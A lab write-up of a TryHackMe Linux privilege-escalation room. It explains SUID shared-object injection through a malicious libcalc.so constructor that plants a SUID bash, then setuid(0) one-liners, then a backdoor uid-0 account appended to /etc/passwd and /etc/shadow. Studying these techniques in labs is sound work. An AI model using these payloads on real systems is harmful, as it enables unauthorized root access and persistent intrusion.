








SUID Shared Object Injection - From euid=0 to Read Root

Tryhackme Room used - https://tryhackme.com/room/linuxprivescarena


Section 1: SUID and Shared Objects.
1. SUID bit : 
  - Set User ID.
  - a special Linux/Unix file permission that allows an executable file to run with the privileges of its owner rather than the user running it.
  - What it means is that a binary with SUID bit set, and owner root, will run with root privileges, rather than the user privileges executing the binary.

2. Shared objects :
  - .so files
  - these are libraries that programs load at runtime.
  - Multiple application can load these simultaneously, acting similarly to Dynamic Link Libraries (DLLs) in Windows.
  - Now hijacking and/or manipulating these shared objects can be one of the ways to escalate privileges.

** If a SUID binary loads a shared object from a path we control, we can inject malicious code that runs with the binary's privileges.


Section 2: Discovery.
1. Step 1: Find all SUID binaries.
  ```bash
  find / -type f -perm -04000 -ls 2>/dev/null
  ```

  **Output:**
  

2. Step 2: Found /usr/local/bin/suid-so.
  - Now, from the list of SUID binaries, most of them were system binaries. suid-so, along with suid-env and suid-env2 is not system binary. 
  - Also, it has both SUID as well as SGID set.
  - The owner is root.
  - All this scratched that part of my brain that says this one is exploitable.

3. Step 3: Ran it
  - Ran it, to see some output, trying to gather information as what it does.
  ```bash
  /usr/local/bin/suid-so
  ```
  **Output**
  
  - Nothing interesting was found.

4. Step 4: Used strace
  - strace is a linux utility to trace system calls, monitor and temper with interactions between process and linux kernel.
  **strace command:**
  ```bash
  strace /usr/local/bin/suid-so 2>&1
  ```

5. Step 5: Filtered with grep
  ```bash
  strace /usr/local/bin/suid-so 2>&1 | grep -ie "open|access|no file found"
  ```
  **Output**
  


Section 3: Exploitation
1. As we can see, the suid-so binary tries to read a file called 'libcalc.so', which is a shared object from the location /home/user/.config/libcalc.so.

2. This directory .config is not present, so we can create it and since it is writable we can create our own malicious shared object file, libcalc.so that will run when suid-so accesses it and since suid-so runs with root permissions, our libcalc.so will also get executed with root privileges.

3. Step 1: Creating the missing directory.
  ```bash
  mkdir /home/user/.config/
  ```

4. Step 2: Wrote malicious libcalc.c:
```bash
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject(){
  system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
- a. We created a inject function, and this function runs automatically, as we have declared __attribute__((constructor)), when the .so is loaded, before main()
- b. Compiled this .c file to create .so: gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
- c. -shared makes a .so, -fPIC makes position-independent code (required for shared libraries), -o names the ouput

5. Step 3: Ran /usr/local/bin/suid-so 
  - it loaded our malicious libcalc.so and executed our code.
  - we got a shell.


After observations, where the fun began (^-^) --> 
- I typed 'id' and 'whoami', this was the output.


- Now, I wanted to enumerate more from the inside as what user we have, what different services are up and running, and if we can pivot to other networks or machines.

- I knew there is a web-server running from previous recon. So I tried to switch to the user 'www-data' using
 ```bash
su www-data
 ```


- It prompted me for a password, at this moment I knew something is not right, if I am really root I would have been able to switch to other user without the need to enter a password.

- After some research, I got to know that -> Having euid=0(root) does not mean we are a real root user.
- - euid=0(root) and uid=1000(TCM) are very different things. euid means effective root.
- - uid = who you really are,
- - euid = who the OS treats you as for permission checks.

- When I used 'su', su uses PAM (privilege access management) which calls getuid() not the geteuid()
- - so PAM saw uid=1000 , that is unprivileged user and thus prompted me to enter password before allowing to switch to a different user.

- But Since we have a euid=0(root), we have some ways to become root, i.e., uid=0

  METHOD 1: Using Python/Perl setuid syscall:
    ```bash
    python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
    ```

    ```bash
    perl -e 'use POSIX qw(setuid); $ENV{PATH}="/bin:/usr/bin"; POSIX::setuid(0); exec("/bin/bash");'
    ```
    - Here, when using perl, we need to define the $ENV{PATH}. If we don't we will see this error: screenshot here
    - The reason is, Perl enables 'taint mode' automatically when running setuid/setgid. Tainted $ENV{PATH} is considered user-controlled and insecure. Setting it explicitly marks it as untainted. The error that you may get without defining the $ENV{PATH} is: 
    - Why it works: setuid(0) is a kernel syscall. when euid=0, the kernel allows you to change your real uid to 0. Now uid=0 AND euid=0 - we are real root.
    

  METHOD 2: Backdoor via /etc/passwd and /etc/shadow (More about maintaining access)
    - Step 1: Add user to /etc/passwd
    ```bash
    echo 'pwned:x:0:0:root:/root/:/bin/bash' >> /etc/passwd
    ```
    - Step 2: Generate password hash, password will be known to us
    ```bash
    openssl passwd -1 -salt xyz password123
    ```
    - Step 3: Add to /etc/shadow
    ```bash
    echo 'pwned:$1$xyz$hashedvalue:19000:0:99999:7:::' >> /etc/shadow
    ```

    - Step 4: Switch to new root user
    ```bash
    su pwned
    ```
      - The x in passwd tells PAM to check shadow for the hash.
      - Empty field instead of x confuses PAM on modern systems - authentication fails 
